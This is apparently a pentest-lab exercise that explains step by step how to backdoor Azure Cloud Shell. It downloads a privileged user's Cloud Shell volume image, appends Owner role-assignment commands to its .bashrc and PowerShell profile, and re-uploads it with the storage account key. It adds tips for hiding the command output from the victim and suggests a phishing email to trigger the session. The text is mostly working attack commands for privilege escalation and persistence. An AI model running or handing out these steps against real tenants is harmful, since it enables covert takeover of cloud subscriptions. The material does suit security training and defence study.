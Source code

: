 


### Hands-on exercise – Backdooring Azure Cloud Shell
In this exercise, we will exploit a Cloud Shell volume image to run sensitive commands with the permissions of a privileged user when they use Cloud Shell. This will ensure privilege access persistence. The process that we will cover will follow a four-step process. 
* First, we will download the Cloud Shell volume image of a higher privileged user
* We will mount the image on the Linux VM that we deployed earlier
* We will plant commands that we want to run
* We will re-upload back into the Cloud Shell file share

1. Open a PowerShell console on your pentest VM. SSH into the Linux VM that you used in the previous exercise **`LAB07`**. Enter the password when prompted.
```
ssh linuxadmin@linuxvm-xxxxxxxxxxxxxxxxxxxxxx
```

2. In the Bash shell of the pentest Linux VM, use the following command to switch to the root user:
```
sudo su –
```

3. Authenticate to Azure CLI using the following command. Replace the **`AVA_USERNAME`** and **`AVA_PASSWORD`** placeholders with the real values of Ava's credentials from the **`LABXX-Info`** exercise file:
```
az login --username "AVA_USERNAME" --password "AVA_PASSWORD"
```

4. Run lava.py to start the Lava tool:
```
cd lava/
python3 lava.py
```

5. Verify the current user and permissions using the following command:
```
exec priv_show
```

6. Scan the file shares in the Azure subscription for potential Cloud Shell images. You can do this using the following Lava command:
```
exec stg_file_scan
```

7. The previous command takes advantage of access to the access keys to scan the file shares in an Azure subscription. You can see that we have a file share that is used by Azure Cloud Shell:

8. Download the files in the Azure file shares using the following command. Running the preceding command in an environment that has multiple file shares can take a long time to complete:
```
exec stg_file_download
```

9. This will download the file into a temporary directory on the pentest Linux VM. Make a note of the download location where it says **`files will be saved to.....`**:

10. After the download has been completed, exit Lava using the exit command:
```
exit
```

11. Back in the Bash shell, mount the downloaded image file using the following command. Replace **`<download_location>`** with the download path that you made a note of in step 9 of this exercise:
```
mount <download_location>/.cloudconsole/acc_admin.img /mnt
```

12. Explore the mounted drive by typing the following command and pressing Tab:
```
ls /mnt/
```

13. You should see an output of persistent files and data from the Cloud Shell user's previous sessions. This includes sensitive information, such as the user's shell context information.

14. Change directories to the mounted drive and enter the following command to append a malicious command to the .bashrc file, to escalate the privileges of our current Contributor user:
```
cd /mnt
echo "az role assignment create --role "Owner" --assignee $(az ad user list --display-name ava.brown | jq '.[]' | jq -r '.userPrincipalName')" >> .bashrc
```

15. **`bashrc`** is a Bash shell script that runs whenever a shell session is started interactively. The preceding command will ensure that the next time the target privileged user opens a Cloud Shell session, the command to escalate the privilege of the Ava from **`contributor`** access to **`owner`** access will be executed. 

16. To do the same thing for a PowerShell session, we will need to first create two directories in the user's home directory. This is where the PowerShell profile will live. If you get an error message about the existence of the directories, you can ignore that and move on to the next step:
```
mkdir .config
mkdir .config/PowerShell
```

17. Similar to what we did for the .bashrc file, we will make the contributoruser an owner on the subscription by adding the following command to the PowerShell profile:
```
echo "New-AzRoleAssignment -UserPrincipalName (Get-AzADUser -StartsWith ava).UserPrincipalName -RoleDefinitionName Owner" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
```

18. Unmount the drive from your session with the following command:
```
cd ..
umount /mnt
```

19. Now let's upload the drive back to the storage account and overwrite the existing version. First, we will obtain the name of the storage account and store it in a variable. Replace **`<storage_acct_name>`** with the name of the storage account that the original Cloud Shell files were downloaded from (starts with a prefix of **`cs`**):
```
az storage account list --query [].name -o tsv
storagename=<storage_acct_name>
```

20. Obtain the access key and file share and upload the image back into it using the following commands. Replace **`<download_location>`** with the location that you made a note of in **`Step 9`** of this exercise:
```
key=$(az storage account keys list -n $storagename --query [0].value -o tsv)

csfileshare=$(az storage share list --account-key $key --account-name $storagename --query [].name -o tsv)

az storage file upload --account-key $key --account-name $storagename --share-name $csfileshare --path ".cloudconsole/acc_admin.img" --source "<download_location>/.cloudconsole/acc_admin.img"
```

21. The upload process will begin after this. This will overwrite the existing file in the share. 

22. Finally, we will need to trigger the attack by opening a Cloud Shell instance as the **`admin`** user account. To do this, we will log in as the **`admin`** account and open Cloud Shell in the portal. We can see that our commands were executed in the Cloud Shell instance, and Ava's account is now an owner on the subscription.

23. As an attacker, we may want to be a little stealthier about our actions in this scenario. To suppress the message, you can use the **`| out-null`** function at the end of the PowerShell command to redirect the output. Alternatively, we can use **`&>/dev/null`** at the end of the Bash shell attack. This will prevent the command execution from showing up in your admin's Cloud Shell output.

24. In a practical attack scenario, it may take a while for a victim Cloud Shell account to open a new session. To expedite this process, you could send a phishing email that links to https://shell.azure.com/. Not only will the link look legitimate, but it will start up a Cloud Shell session as soon as the site is loaded.

25. Now let's verify that we have indeed escalated our privileges to the Owner role. We can run the priv_show command in Lava to verify this:
```
cd ~/lava
python3 lava.py
exec priv_show
```

26. You should be able to see that the user is now assigned to the OWNER role due to a successful privilege escalation attack. This also ensures that if the permission was removed from the user, it will be re-added the next time the user opens a Cloud Shell session - essentially giving us persistence.
